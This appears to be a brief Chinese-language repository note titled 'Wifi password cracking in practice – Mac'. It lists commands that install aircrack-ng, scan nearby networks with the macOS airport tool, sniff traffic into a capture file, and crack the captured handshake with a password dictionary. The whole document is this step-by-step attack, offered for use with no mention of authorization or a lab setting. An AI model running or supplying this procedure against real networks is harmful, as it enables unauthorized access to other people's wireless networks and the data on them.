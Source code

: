 # Wifi密碼破解實戰-Mac

## 事前準備
- 密碼字典
- 安裝MacPorts

## 所需指令
```js
sudo port selfupdate
sudo port install aircrack-ng
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport -s #取得Wifi資訊
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/A/Resources/airport en0 sniff 監聽口 #開始監聽
sudo aircrack-ng /tmp/終端機會輸出檔案名.cap
cd  ~/你的Wifi/字典路徑
sudo aircrack-ng -w 字典名稱.txt /tmp/終端機會輸出檔案名.cap #破解密碼
```

資料來源：https://www.cnblogs.com/hzxll/p/16271446.html
